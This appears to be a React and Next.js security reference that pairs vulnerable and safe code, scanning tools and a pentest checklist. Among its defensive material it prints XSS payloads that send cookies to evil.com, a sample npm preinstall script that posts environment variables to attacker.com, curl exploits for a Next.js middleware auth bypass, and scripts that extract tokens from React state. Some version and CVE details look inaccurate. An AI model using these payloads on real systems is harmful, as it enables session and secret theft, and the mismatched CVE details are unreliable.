


# React Security

> **React prevents most XSS by default through JSX auto-escaping, but several specific patterns bypass these protections — and React apps introduce unique attack surfaces through DevTools, JWT exposure, and component architecture.**

---

## 🧠 What Is It? (Beginner Explanation)

React is the most popular frontend framework, used by Facebook, Airbnb, Netflix, and millions of other sites. It uses a virtual DOM and JSX — a syntax that looks like HTML but compiles to JavaScript function calls.

React's default behavior is actually **safe from XSS**: when you write `{userInput}` in JSX, React automatically HTML-encodes it. The dangerous patterns are opt-in. But developers sometimes need to render rich HTML, handle external URLs, or use third-party components — and that's where bugs sneak in.

React apps also have a unique security surface:
- **React DevTools** let anyone inspect component state and props
- JWTs often stored in **localStorage** — readable by any JS
- **SSR (Next.js)** introduces server-side injection into the page
- Massive **npm dependency chains** carry their own vulnerabilities

---

## 🏗️ How It Works (Technical Deep Dive)

### How JSX Prevents XSS by Default

```jsx
// JSX compiles to:
const element = <div>{userInput}</div>;
// → React.createElement('div', null, userInput)
// React calls String(userInput) then HTML-encodes it:
// < → &lt;   > → &gt;   " → &quot;   ' → &#39;   & → &amp;
```

The encoding happens at render time. Even if `userInput` is `<script>alert(1)</script>`, it will render as literal text, not as an executable script tag.

**But these patterns bypass the escaping:**
1. `dangerouslySetInnerHTML` — explicitly inserts raw HTML
2. `href={url}` and `src={url}` — `javascript:` URLs execute JS
3. Template literals in event handlers — `eval`-equivalent
4. `ref` manipulation — direct DOM access
5. Server-side injection (Next.js `__NEXT_DATA__`)

---

## 📊 Diagram





---

## ⚙️ dangerouslySetInnerHTML — Primary XSS Sink

The name is intentionally scary. `dangerouslySetInnerHTML` is React's escape hatch for rendering raw HTML, equivalent to setting `element.innerHTML` directly.

### Basic Vulnerability

```jsx
// ❌ VULNERABLE — renders raw HTML from any source
function Comment({ text }) {
  return (
    <div
      className="comment-body"
      dangerouslySetInnerHTML={{ __html: text }}
    />
  );
}

// XSS payloads that work here:
// text = ''
// text = '<svg onload="fetch(`https://evil.com?c=${document.cookie}`)">'
// text = '<a href="javascript:alert(1)">Click me</a>'
// text = '<details open ontoggle="alert(1)">'
// text = '<iframe src="javascript:parent.alert(document.domain)">'
```

```jsx
// ❌ VULNERABLE — content fetched from API injected as HTML
function Article({ id }) {
  const [article, setArticle] = useState(null);

  useEffect(() => {
    fetch(`/api/articles/${id}`)
      .then(r => r.json())
      .then(data => setArticle(data));
  }, [id]);

  if (!article) return <div>Loading...</div>;

  // If the API returns malicious HTML (stored XSS), this executes it
  return (
    <article>
      <h1>{article.title}</h1>
      <div dangerouslySetInnerHTML={{ __html: article.body }} />
    </article>
  );
}
```

### Safe Alternatives

```jsx
// ✅ SAFE — React auto-escapes text nodes
function Comment({ text }) {
  return <div className="comment-body">{text}</div>;
}

// ✅ SAFE — DOMPurify sanitization when HTML rendering is needed
import DOMPurify from 'dompurify';

function Article({ content }) {
  const sanitized = DOMPurify.sanitize(content, {
    ALLOWED_TAGS: ['p', 'b', 'i', 'em', 'strong', 'a', 'ul', 'ol', 'li'],
    ALLOWED_ATTR: ['href', 'target'],
    ALLOW_DATA_ATTR: false,
    FORCE_BODY: true,
  });

  return <div dangerouslySetInnerHTML={{ __html: sanitized }} />;
}

// ✅ SAFE — Use a markdown renderer with strict sanitization
import ReactMarkdown from 'react-markdown';
import remarkGfm from 'remark-gfm';

function Comment({ text }) {
  return (
    <ReactMarkdown
      remarkPlugins={[remarkGfm]}
      // ReactMarkdown sanitizes by default
    >
      {text}
    </ReactMarkdown>
  );
}
```

### Testing dangerouslySetInnerHTML

```bash
# Payloads for testing dangerouslySetInnerHTML
# Standard XSS
<script>alert(1)</script>

# Script blocked? Event-based XSS

<svg onload=alert(1)>
<details open ontoggle=alert(1)>
<video src=1 onerror=alert(1)>

# DOM clobbering for JSONP-style escalation
<form id=x><input name=action value=//evil.com></form>

# Exfiltration payload


# Check if DOMPurify is present (and potentially bypassable)
# In browser console:
typeof DOMPurify  // "object" if present
DOMPurify.version  // check for bypass-affected versions
```

---

## ⚙️ Unsafe href — javascript: Protocol Attack

React does NOT validate the protocol of `href` or `src` attributes. A `javascript:` URL will execute when clicked.

```jsx
// ❌ VULNERABLE — href set directly from user data
function UserLink({ profile }) {
  return (
    <a href={profile.website}>Visit Website</a>
  );
}
// Exploit: profile.website = "javascript:alert(document.cookie)"

// ❌ VULNERABLE — button with dynamic href
function ProfileCard({ user }) {
  return (
    <div>
      <a href={user.linkedIn}>LinkedIn</a>
      <a href={user.twitter}>Twitter</a>
      <a href={user.github}>GitHub</a>
    </div>
  );
}
// Any of these can be "javascript:fetch('https://evil.com?c='+document.cookie)"
```

```jsx
// ✅ SAFE — validate URL protocol before rendering
function SafeLink({ url, children }) {
  const isSafe = (u) => {
    try {
      const parsed = new URL(u);
      return ['https:', 'http:'].includes(parsed.protocol);
    } catch {
      return false;
    }
  };

  if (!isSafe(url)) {
    return <span>{children}</span>;  // render as text, not link
  }

  return (
    <a href={url} rel="noopener noreferrer" target="_blank">
      {children}
    </a>
  );
}

// Usage
<SafeLink url={user.website}>Visit Website</SafeLink>

// ✅ SAFE — Simple regex allowlist
function Link({ url }) {
  if (!/^https?:\/\//i.test(url)) return null;
  return <a href={url} rel="noopener noreferrer">{url}</a>;
}
```

### React Version History for javascript: URLs

```
React < 16.9:  javascript: in href — FULLY EXECUTED, no warning
React 16.9:    javascript: in href — executed with console WARNING
React 17+:     javascript: in href — BLOCKED in production builds
React 17+:     data: in href — BLOCKED
React 18+:     Additional hardening for SVG event handlers
```

```jsx
// Check React version in browser console
import React from 'react';
console.log(React.version);

// Or in package.json
// "react": "^16.8.0"  ← VULNERABLE to javascript: href
// "react": "^17.0.0"  ← Blocked in production
// "react": "^18.0.0"  ← Blocked in production
```

---

## ⚙️ Next.js SSR XSS — `__NEXT_DATA__` Injection

Next.js serializes server-side props into a `<script>` tag embedded in the HTML. If user input is passed directly into `getServerSideProps`, it can break out of the JSON context.

```javascript
// ❌ VULNERABLE — user query param injected into __NEXT_DATA__
// pages/search.js
export async function getServerSideProps({ query }) {
  return {
    props: {
      searchQuery: query.q,         // directly from URL
      userName: query.name,         // no sanitization
      filterTag: query.tag          // user-controlled
    }
  };
}

// Next.js renders this as:
// <script id="__NEXT_DATA__" type="application/json">
//   {"props":{"pageProps":{"searchQuery":"PAYLOAD_HERE"}}}
// </script>
```

```
Attack URL:
https://target.com/search?q=</script><script>alert(document.domain)</script>

Resulting HTML:
<script id="__NEXT_DATA__" type="application/json">
{"props":{"pageProps":{"searchQuery":"</script><script>alert(document.domain)</script>"}}}
</script>

Browser parses:
1. <script> closes at the first </script>
2. Second <script> opens and executes alert()
```

```javascript
// ✅ SAFE — Next.js 13+ handles this internally with JSON.stringify
// But for older Next.js, sanitize explicitly:
import { escape } from 'html-escaper';

export async function getServerSideProps({ query }) {
  return {
    props: {
      // Sanitize user input before passing to props
      searchQuery: typeof query.q === 'string'
        ? query.q.replace(/[<>'"&]/g, '')
        : '',
    }
  };
}

// ✅ SAFE — Use allowlist validation
export async function getServerSideProps({ query }) {
  const validTag = /^[a-zA-Z0-9-_]+$/.test(query.tag) ? query.tag : '';
  return {
    props: { tag: validTag }
  };
}
```

### Next.js CVE-2024-46982 — Cache Poisoning

```
CVE-2024-46982
CVSS:    7.5 (High)
Affects: Next.js < 14.2.10
Issue:   Cache poisoning via response headers manipulation
         Attacker can poison the cache to serve malicious content
Fix:     Upgrade to Next.js 14.2.10+

Exploitation:
1. Send request with manipulated Accept-Encoding or similar headers
2. Poisoned response gets cached by Next.js edge/ISR cache
3. Subsequent users receive attacker-controlled content

Test:
curl -H "x-now-route-matches: 1" https://target.com/
curl -H "x-middleware-subrequest: middleware" https://target.com/admin
```

```
CVE-2025-29927 — Next.js Middleware Auth Bypass (Critical)
CVSS:    9.1
Affects: Next.js < 15.2.3, < 14.2.25
Issue:   x-middleware-subrequest header bypasses middleware checks
         Including authentication middleware protecting /admin routes
Fix:     Upgrade immediately; or block x-middleware-subrequest header at edge

Exploitation:
curl -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware" \
  https://target.com/admin/users
```

---

## ⚙️ React DevTools for Attacker Reconnaissance

React DevTools is a browser extension that exposes the full component tree, state, and props of any React application. **Anyone can install it.**

### What DevTools Exposes

```javascript
// In browser console with React DevTools installed:

// Get React fiber root (internal representation)
const root = document.getElementById('root')._reactRootContainer;

// Access component tree
// DevTools → Components tab → inspect any component → see props and state

// Common sensitive data found in component state:
// - JWT tokens passed as props to API hooks
// - User objects with roles, permissions, email
// - Feature flags (isAdmin: false ← target this)
// - API endpoints with authentication parameters
// - Payment/billing data in checkout components
// - Redux store (via DevTools Redux tab)
```

### Extracting Tokens from React State

```javascript
// Method 1: React DevTools Extension
// Components tab → find AuthProvider or UserContext → inspect state

// Method 2: Access React internals programmatically
// Works when DevTools is available or React dev mode is enabled
function getReactState(element) {
  const key = Object.keys(element).find(k =>
    k.startsWith('__reactFiber') || k.startsWith('__reactInternalFiber')
  );
  if (!key) return null;
  let fiber = element[key];
  while (fiber) {
    if (fiber.memoizedState?.memoizedState?.accessToken) {
      return fiber.memoizedState.memoizedState;
    }
    fiber = fiber.return;
  }
}

// Find tokens in Redux store (if using Redux DevTools)
// Redux DevTools → State tab → auth → token

// Method 3: Search React state tree for tokens
const allNodes = document.querySelectorAll('[data-reactroot] *');
allNodes.forEach(node => {
  const key = Object.keys(node).find(k => k.startsWith('__reactFiber'));
  if (key && node[key]?.memoizedProps?.token) {
    console.log('Found token:', node[key].memoizedProps.token);
  }
});
```

### Finding Hidden Routes via React Router

```javascript
// React Router stores routes in a context accessible via DevTools
// DevTools → Components → Router → props.children → see all Route definitions

// In browser console (React Router v5):
window.__REACT_ROUTER_DEBUG__ // may be set in dev mode

// React Router v6 — find routes in component tree
// Look for RouteObject in Router component props
// Common hidden routes:
// /admin, /admin/users, /admin/settings
// /debug, /test, /dev
// /internal/*, /private/*

// Search bundle for route definitions
grep -oP "path:\s*['\"]([^'\"]+)['\"]" app.bundle.js | \
  grep -v "node_modules"
```

---

## ⚙️ Prop Drilling and Sensitive Data Exposure

```jsx
// ❌ BAD PATTERN — sensitive data drilled through many components
function App() {
  const [user, setUser] = useState({
    id: 1,
    name: 'Alice',
    email: 'alice@example.com',
    ssn: '123-45-6789',         // sensitive
    apiKey: 'sk-abc123...',     // sensitive
    adminToken: 'adm_...',      // sensitive
  });

  return <Dashboard user={user} />;
}

// Dashboard passes it to Sidebar, which passes to Nav, which passes to Avatar
// Every component in the tree receives the full user object
// React DevTools reveals all of it
function Dashboard({ user }) {
  return (
    <div>
      <Sidebar user={user} />       {/* passes everything */}
      <Content user={user} />       {/* passes everything */}
    </div>
  );
}

// ✅ SAFE — Only pass what each component needs
function Dashboard({ user }) {
  return (
    <div>
      <Sidebar userName={user.name} />  {/* just the name */}
      <Content userId={user.id} />      {/* just the ID */}
    </div>
  );
}

// ✅ SAFE — Context with selective exposure
const PublicUserContext = React.createContext(null);

function App() {
  const fullUser = useFullUser();  // has sensitive fields
  const publicUser = {
    id: fullUser.id,
    name: fullUser.name,
    avatar: fullUser.avatar,
    // No sensitive fields
  };

  return (
    <PublicUserContext.Provider value={publicUser}>
      <Dashboard />
    </PublicUserContext.Provider>
  );
}
```

---

## ⚙️ Third-Party Component Vulnerabilities

### npm Supply Chain Attacks

```bash
# Check for known vulnerabilities in React dependencies
npm audit
npm audit --audit-level=high

# Fix automatically fixable issues
npm audit fix

# Check specific package for CVEs
npm info react-scripts vulnerabilities

# Use Snyk for deeper scanning
npm install -g snyk
snyk test
snyk monitor

# Check for typosquatting / malicious packages
# Common patterns: react-router vs react-rouuter
# Use: https://socket.dev for supply chain analysis
```

### Malicious Package Patterns

```javascript
// Malicious package example — steals env vars on install
// package.json:
{
  "scripts": {
    "preinstall": "node steal.js"
  }
}

// steal.js (inside malicious npm package):
const https = require('https');
const data = JSON.stringify({
  env: process.env,      // REACT_APP_API_KEY, tokens, etc.
  cwd: process.cwd(),
  files: require('fs').readdirSync('.')
});

https.request({
  hostname: 'attacker.com',
  path: '/collect',
  method: 'POST',
  headers: { 'Content-Length': data.length }
}, () => {}).end(data);
```

```bash
# Prevent postinstall scripts from running
npm config set ignore-scripts true
# Or per-install:
npm install --ignore-scripts

# Audit .env file exposure
grep -r "REACT_APP_" .env* | grep -v ".env.example"
# Never commit .env files with real secrets
cat .gitignore | grep .env  # ensure .env is ignored
```

### Notable CVEs in React Ecosystem

```
CVE-2018-6341 — React < 16.4.2
  XSS via crafted object passed to attributes (SVG/MathML)
  Patch: Upgrade to React 16.4.2+

CVE-2021-27290 — ssri npm package (used by webpack/react-scripts)
  ReDoS via malicious SRI hash strings
  Affects: create-react-app projects indirectly

CVE-2021-23364 — browserslist (create-react-app dependency)
  ReDoS vulnerability
  Patch: browserslist > 4.16.5

CVE-2022-25858 — terser (minifier used in react-scripts)
  Code injection via source code with crafted comments
  Affects: react-scripts < 5.0.1

Next.js CVE-2024-46982 — Cache poisoning (CVSS 7.5)
  Next.js < 14.2.10

Next.js CVE-2025-29927 — Middleware bypass (CVSS 9.1)
  Next.js < 15.2.3 / < 14.2.25
  Header: x-middleware-subrequest bypasses auth middleware

create-react-app CVE-2023-28443 (nth-check)
  ReDoS in CSS parsing
```

---

## ⚙️ Content Security Policy for React Apps

```html
<!-- index.html — CSP meta tag (weaker than HTTP header) -->
<meta
  http-equiv="Content-Security-Policy"
  content="default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';"
/>
```

```nginx
# Nginx — CSP via HTTP header (preferred — cannot be bypassed by injection)
server {
  add_header Content-Security-Policy "
    default-src 'self';
    script-src 'self' 'nonce-$request_id';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data: https:;
    connect-src 'self' https://api.yourapp.com wss://api.yourapp.com;
    font-src 'self' https://fonts.gstatic.com;
    frame-src 'none';
    frame-ancestors 'none';
    base-uri 'self';
    form-action 'self';
    upgrade-insecure-requests;
  " always;
}
```

```javascript
// React with nonce-based CSP (Next.js example)
// next.config.js
const crypto = require('crypto');
const nonce = crypto.randomBytes(16).toString('base64');

module.exports = {
  async headers() {
    return [
      {
        source: '/:path*',
        headers: [
          {
            key: 'Content-Security-Policy',
            value: `
              default-src 'self';
              script-src 'self' 'nonce-${nonce}';
              style-src 'self' 'unsafe-inline';
            `.replace(/\n/g, ' ').trim()
          }
        ]
      }
    ];
  }
};
```

```javascript
// CSP violation reporting
// Add report-uri to CSP:
// Content-Security-Policy: ...; report-uri /api/csp-report; report-to csp-endpoint

// Express endpoint to receive reports
app.post('/api/csp-report', express.json({ type: 'application/csp-report' }), (req, res) => {
  console.log('CSP Violation:', req.body['csp-report']);
  // Log to SIEM/monitoring
  res.status(204).end();
});
```

---

## 🛠️ Tools

### Finding React XSS Sinks

```bash
# Search React source for dangerous patterns
# In the project source code:
grep -rn "dangerouslySetInnerHTML" src/ --include="*.jsx" --include="*.tsx"
grep -rn "dangerouslySetInnerHTML" src/ -A2 | grep "__html"

# Find unsafe href patterns
grep -rn "href={" src/ --include="*.jsx" --include="*.tsx" | \
  grep -v "href=\"" | grep -v "href={'/"

# Find eval/setTimeout with strings
grep -rn "eval(" src/
grep -rn "setTimeout(" src/ | grep -v "=>" | grep -v "function"

# Find bypassSecurityTrust (Angular — in case of mixed codebase)
grep -rn "bypassSecurityTrust" src/

# Find innerHTML assignments
grep -rn "innerHTML" src/

# Find document.write
grep -rn "document\.write" src/
```

### Static Analysis with ESLint

```bash
# Install security-focused ESLint plugins
npm install --save-dev \
  eslint-plugin-react \
  eslint-plugin-react-hooks \
  eslint-plugin-no-secrets \
  eslint-plugin-security

# .eslintrc.json
{
  "plugins": ["react", "react-hooks", "security", "no-secrets"],
  "rules": {
    "react/no-danger": "error",
    "react/no-danger-with-children": "error",
    "no-secrets/no-secrets": "warn",
    "security/detect-non-literal-regexp": "warn",
    "security/detect-object-injection": "warn",
    "security/detect-possible-timing-attacks": "warn"
  }
}

# Run
npx eslint src/ --ext .js,.jsx,.ts,.tsx
```

### Semgrep React Security Rules

```bash
# Install semgrep
pip install semgrep

# Run React security ruleset
semgrep --config "p/react" src/
semgrep --config "p/javascript" src/
semgrep --config "p/xss" src/
semgrep --config "p/secrets" src/

# Custom rule: find dangerouslySetInnerHTML without DOMPurify
cat > react-xss.yaml << 'EOF'
rules:
  - id: dangerously-set-inner-html-no-purify
    patterns:
      - pattern: dangerouslySetInnerHTML={{ __html: $X }}
      - pattern-not: dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize($X) }}
    message: dangerouslySetInnerHTML used without DOMPurify sanitization
    severity: ERROR
    languages: [jsx, tsx]
EOF

semgrep --config react-xss.yaml src/
```

### Burp Suite — Testing React APIs

```
1. Start Burp Suite → Proxy → Intercept ON
2. Open Burp's embedded Chromium: Proxy → Open Browser
3. Navigate to React app
4. Observe Network tab — XHR/Fetch requests appear in HTTP History
5. Right-click any API request → Send to Repeater
6. In Repeater:
   - Test IDOR: change /api/users/42 to /api/users/1
   - Test auth bypass: remove Authorization header
   - Test mass assignment: add isAdmin:true to body
   - Test parameter pollution: duplicate parameters

GraphQL testing in Burp:
7. Install InQL (Burp extension) from BApp Store
8. InQL automatically finds GraphQL endpoints
9. Introspection query auto-generated
10. Queries can be fuzzed via Intruder
```

---

## 🔍 Detection

### Penetration Testing Checklist for React Apps

```
XSS Sinks:
☐ Find all dangerouslySetInnerHTML usage in JS bundle
☐ Test with payloads: , <svg onload=alert(1)>
☐ Check for v-html / bypassSecurityTrustHtml if mixed framework

URL Injection:
☐ Find all href, src, action attributes set from props/state
☐ Try payload: javascript:alert(document.domain)
☐ Try payload: data:text/html,<script>alert(1)</script>

SSR (Next.js):
☐ Check for __NEXT_DATA__ in page source
☐ Inject </script> into URL params, form fields, headers
☐ Test: ?q=</script>
☐ Check Next.js version for CVE-2025-29927 middleware bypass

Authentication:
☐ Where is the token stored? (F12 → Application → Local Storage / Session Storage)
☐ Decode JWT at jwt.io — check algorithm, expiry, claims
☐ Try algorithm none: eyJhbGciOiJub25lIn0...
☐ Can token be stolen via XSS? (test any input in the app)

Access Control:
☐ Open React DevTools → find admin/role-gated components
☐ Get their API endpoints from source analysis
☐ Call those endpoints with a regular user token
☐ Try IDOR on all /api/*/id endpoints

DevTools Recon:
☐ Open React DevTools → Components tab
☐ Find AuthContext, UserContext, SessionContext
☐ Inspect state for tokens, secrets, permissions
☐ Find hidden routes in Router component

Dependencies:
☐ Run: npm audit
☐ Check React version: console.log(React.version)
☐ Check Next.js version: cat package.json | grep next
```

### Automated Scanning

```bash
# Full automated pipeline for React app
TARGET="https://target.com"

# 1. Download and analyze JS bundle
BUNDLE=$(curl -s "$TARGET" | grep -oP "src=['\"]([^'\"]*main[^'\"]*\.js)['\"]" | \
  grep -oP "/[^'\"]+")
curl -s "$TARGET$BUNDLE" -o bundle.js
prettier --write bundle.js 2>/dev/null

# 2. Extract all API endpoints
echo "[*] API Endpoints:"
grep -oE "['\"](/api/[a-zA-Z0-9/_-]+)['\"]" bundle.js | \
  tr -d "'\""| sort -u

# 3. Find potential secrets
echo "[*] Potential Secrets:"
grep -E "(key|secret|token|password|auth)\s*[=:]\s*['\"][^'\"]{8,}" \
  bundle.js | head -10

# 4. Find dangerous React patterns
echo "[*] dangerouslySetInnerHTML usage:"
grep -n "dangerouslySetInnerHTML" bundle.js | head -10

# 5. Check for React version
echo "[*] React version:"
grep -oP "\"react\"\s*:\s*\"[^\"]+\"" bundle.js | head -5

# 6. Run nuclei against target
nuclei -u "$TARGET" -t vulnerabilities/ -t exposures/ -severity medium,high,critical
```

---

## 🛡️ Mitigation

### React Security Best Practices Summary

| Vulnerability | Mitigation |
|--------------|------------|
| `dangerouslySetInnerHTML` XSS | Use `{text}` syntax; if HTML needed, use `DOMPurify.sanitize()` |
| `href` javascript: injection | Validate protocol with `URL()` or regex `^https?://` |
| JWT in localStorage | Use `httpOnly` cookies or in-memory storage |
| Next.js `__NEXT_DATA__` XSS | Validate/sanitize all query params in `getServerSideProps` |
| Client-side auth bypass | Enforce authorization on every API endpoint server-side |
| DevTools data exposure | Don't pass sensitive data through component props/state |
| Dependency vulnerabilities | Run `npm audit` regularly; use Snyk |
| CSP bypass | Implement strict CSP via HTTP headers, use nonces |

### Recommended Security Libraries

```bash
# Install security dependencies
npm install dompurify              # HTML sanitization
npm install isomorphic-dompurify   # DOMPurify for SSR (Next.js)
npm install helmet                 # HTTP security headers (Express backend)
npm install joi                    # Input validation
npm install xss                    # Alternative HTML sanitizer

# Dev dependencies
npm install --save-dev \
  eslint-plugin-react \
  eslint-plugin-no-secrets \
  eslint-plugin-security \
  snyk
```

```javascript
// Complete safe React component pattern
import React, { useState, useEffect } from 'react';
import DOMPurify from 'dompurify';

const ALLOWED_URL_PROTOCOLS = ['https:', 'http:'];

function safeUrl(url) {
  if (!url || typeof url !== 'string') return null;
  try {
    const parsed = new URL(url);
    return ALLOWED_URL_PROTOCOLS.includes(parsed.protocol) ? url : null;
  } catch {
    return null;
  }
}

function SafeArticle({ article }) {
  // ✅ Title escaped by JSX default
  // ✅ Body sanitized before dangerouslySetInnerHTML
  // ✅ External URL validated for protocol
  const sanitizedBody = DOMPurify.sanitize(article.body, {
    ALLOWED_TAGS: ['p', 'b', 'i', 'ul', 'ol', 'li', 'a', 'blockquote', 'code', 'pre'],
    ALLOWED_ATTR: ['href'],
    ALLOW_DATA_ATTR: false,
  });

  const safeSourceUrl = safeUrl(article.sourceUrl);

  return (
    <article>
      <h1>{article.title}</h1>  {/* ✅ JSX auto-escape */}
      <div dangerouslySetInnerHTML={{ __html: sanitizedBody }} />
      {safeSourceUrl && (
        <a href={safeSourceUrl} rel="noopener noreferrer">
          Source
        </a>
      )}
    </article>
  );
}
```

---

## 📚 References

- [React Security Documentation](https://react.dev/reference/react-dom/components/common#dangerously-setting-the-inner-html)
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOMPurify — Cure53](https://github.com/cure53/DOMPurify)
- [Next.js CVE-2025-29927 — Middleware Bypass](https://nextjs.org/blog/cve-2025-29927)
- [Next.js CVE-2024-46982 — Cache Poisoning](https://github.com/advisories/GHSA-gp8f-8m3g-qvj9)
- [CVE-2018-6341 — React XSS via SVG](https://nvd.nist.gov/vuln/detail/CVE-2018-6341)
- [Semgrep React Security Rules](https://semgrep.dev/p/react)
- [npm Security Best Practices — npm docs](https://docs.npmjs.com/threats-and-mitigations)
- [PortSwigger — DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
- [Auth0 — React Security Best Practices](https://auth0.com/blog/secure-your-react-app/)
